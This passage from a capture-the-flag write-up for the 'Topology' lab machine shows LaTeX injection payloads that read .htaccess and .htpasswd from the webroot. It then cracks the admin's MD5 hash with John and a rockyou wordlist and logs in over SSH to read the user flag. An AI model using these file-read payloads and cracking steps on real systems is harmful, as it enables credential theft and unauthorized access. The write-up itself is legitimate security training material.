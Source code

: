 The config file gave us the username of the server admin: `vdaisley`, but we have no password for it. However, we know the webroot for `dev.topology.htb`, thus, we can try accessing the `.htaccess` file. Taken from [digitalocean](https://www.digitalocean.com/community/tutorials/how-to-use-the-htaccess-file):

> _An `.htaccess` file is used for an Apache web server as **a way to configure the details of your website without altering the server configuration files***. It can be used to load customized error pages (such as 404 pages), create URL redirects, implement password-protected authentication for specific directories on your server, and more._

A bit [later](https://www.digitalocean.com/community/tutorials/how-to-use-the-htaccess-file#authentication) in the article:

> _To set up security authentication with `.htaccess`, you can create a password file called `.htpasswd` to authenticate users. **Making this change will create a password portal that prompts site visitors to enter a password if they want to access certain sections of the webpage**. When creating this file, **make sure to store it somewhere other than the web directory for security reasons**._

We can therefore trying to see if we can locate the `.htaccess` file and then search for the `.htpasswd` file. We can do that by passing the following payload: `$\lstinputlisting{/var/www/dev/.htaccess}$`.

![](htaccess.png){: .normal width="65%"}

Not only we found the `.htaccess` file, but it seems that the `.htpasswd` is also within the root directory! Let's pass `$\lstinputlisting{/var/www/dev/.htpasswd}$` as our payload:

![](htpasswd.png)

We now have credentials: `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`! We can try to crack the hashed password offline:

```bash
$ cat hash
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

<SNIP>

calculus20       (vdaisley)

<SNIP>
```

That was an MD5 hash and was cracked pretty fast. We can now use our plaintext creds: `vdaisley:calculus20` to login into SSH:

```bash
$ ssh vdaisley@10.10.11.217

<SNIP>

vdaisley@topology:~$ ls
user.txt
vdaisley@topology:~$ cat user.txt
8eda57d8e732e9a2d28917a56a0f5aa1
```
